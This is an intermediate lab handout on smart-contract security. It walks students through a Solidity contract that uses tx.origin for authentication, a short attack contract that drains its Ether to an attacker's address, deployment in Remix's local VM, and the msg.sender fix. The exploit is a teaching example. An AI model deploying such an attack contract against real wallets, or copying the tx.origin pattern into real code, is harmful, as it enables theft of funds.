

# Module 9 - Intermediate Lab: Gone Phishing

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming.

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics  | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Intermediate. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines which are impractical to present a breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many vulnerabilities which could be the focus instead. |

## Assignment Instructions
1. In Solidity, there is a global variable called `tx.origin`, which contains the address of the account that originally sent the call or the transaction. In this lab, we will explore why using `tx.origin` as a form of authentication can lead to exploitation.
2. First, we begin by creating a contract with a simple purpose such as temporarily holding Ether for the owner (just as legitimate contracts in use hold Ether to enable various functions). Copy the following code into [Remix]:
    _Phisable.sol_
    ```solidity
    contract Phishable {
        address public owner;
        constructor (address _owner) {
            owner = _owner;
        }

        function () public payable {} // collect ether

        function withdrawAll(address _recipient) public {
            require(tx.origin == owner);
            _recipient.transfer(this.balance);
        }
    }
    ```
3. We then create another contract to attack `Phishable.sol`. In a new document, create `AttackContract.sol`:
    _AttackContract.sol_
    ```solidity
    import "browser/Phishable.sol";

    contract AttackContract {
        Phishable phishableContract;

        address attacker; // The attacker's address to receive funds

        constructor (Phishable _phishableContract, address _attackerAddress) {
            phishableContract = _phishableContract;
            attacker = _attackerAddress;
        }

        function () payable {
            phishableContract.withdrawAll(attacker);
        }
    }
    ```
4. In `AttackContract`, we see that whenever this contract is paid an amount, it then calls the `Phishable` contract’s `withdrawAll` function providing the address to send funds to. The `Phishable` contract authorizes this transaction, because its owner is the originator of the transaction (from paying the attacker’s contract). Why would the owner pay the attacker’s contract? Perhaps the attacker provided the contract’s address as their payment address in a private transaction with the owner of `Phishable`. This is an example of a spearphishing attack, where the attacker would have identified that `Phishable` is phishable and then organized a plan of attack to have the owner of the `Phishable` be involved in a transaction that would allow this attack to occur. 
5. Let's see this attack in action. You should have already created both files in Remix by now. While active in the `browser/Phishable.sol` tab, click on "Compile" on the top right hand side of the screen and click on "Select new compiler version."
* The version of the compiler should be 
```
version:0.4.23+commit.124ca40d.
```
You might see a few warnings, but that's okay, the compiler should still compile the code properly. 
6. Next, we will deploy the `Phishable` contract. We can do this by clicking on the "Run" tab next to the "Compile" tab on the top right side of the screen. Make sure the run tab has the following settings:
* Environment: Javascript VM
* Account: (this varies, just make sure it's consistent with the deployment address)
* Gas limit: 3000000
* Value: 10 Ether
* Deploy: (same as account address)  


Now, assume you are the owner of Phishable, but you see this coming before you deploy; how would you fix it?
7. We can prevent an attack like this (using tx.origin for authentication purposes) by checking that the sender is the owner instead. In the `Phishable.sol` contract, change the line `require(tx.origin == owner);` to `require(msg.sender == owner);`. Now, when `AttackContract` is paid an amount by the owner of `Phishable` and calls `Phishable`’s `withdrawAll` function, the funds will not be transferred to the attacker’s address, since they are not the owner. The code for `Phishable` should look like this:
    _Phisable.sol_
    ```solidity
    contract Phishable {
        address public owner;
        constructor (address _owner) {
            owner = _owner;
        }

        function () public payable {} // collect ether

        function withdrawAll(address _recipient) public {
            require(msg.sender == owner);
            _recipient.transfer(this.balance);
        }
    }
    ```

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
